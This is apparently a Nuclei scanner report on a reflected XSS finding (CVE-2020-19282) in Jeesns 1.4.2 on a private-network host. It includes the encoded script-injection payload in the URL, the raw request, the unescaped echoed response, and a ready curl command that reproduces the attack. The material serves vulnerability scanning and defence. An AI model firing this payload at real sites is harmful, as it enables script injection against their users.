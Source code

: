 ### Jeesns 1.4.2 XSS (CVE-2020-19282) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2020-19282**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/error?msg=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:07 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Jeesns 1.4.2 XSS |
| Authors | pikpikcu |
| Tags | cve, cve2020, jeesns, xss |
| Severity | medium |
| Description | Reflected cross-site scripting (XSS) vulnerability in Jeesns 1.4.2 allows attackers to execute arbitrary web scripts or HTML via a crafted payload in the system error message's text field. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2020-19282](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2020-19282) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /error?msg=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 200
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/error?msg=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://github.com/zchuanzhao/jeesns/issues/11
- https://nvd.nist.gov/vuln/detail/cve-2020-19282
- https://www.seebug.org/vuldb/ssvid-97940

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36' 'http://192.168.198.179:8080/error?msg=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)
